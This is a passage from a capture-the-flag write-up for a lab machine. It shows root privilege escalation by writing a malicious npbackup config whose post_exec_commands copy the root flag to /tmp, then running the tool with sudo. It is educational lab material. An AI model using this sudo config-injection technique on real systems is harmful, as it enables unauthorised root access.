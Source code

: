 ## Creating a Malicious Config File

We will create a malicious config file, supplying all the normal sections like conf_version or repos so it looks legit.

Reading the code, we see that it runs post_exec_commands—these are commands that the backup program executes after finishing the task.

I will insert this code into the file:

```bash
mkdir -p /tmp/rootbackup
cp /root/root.txt /tmp/rootbackup/flag.txt
chmod 755 /tmp/rootbackup/flag.txt
chown marco:marco /tmp/rootbackup/flag.txt
```
This will copy the root flag into /tmp/rootbackup, owned by my user marco, so I can read the flag.
After creating the config file, we can run it.

```bash
marco@codetwo:~$ sudo /usr/local/bin/npbackup-cli -c /tmp/malicious.conf -b --force     
```
Now we can read the root flag.
```bash
marco@codetwo:~$ cat /tmp/rootbackup/flag.txt
5f32fe<REDACTED>
```
Done.


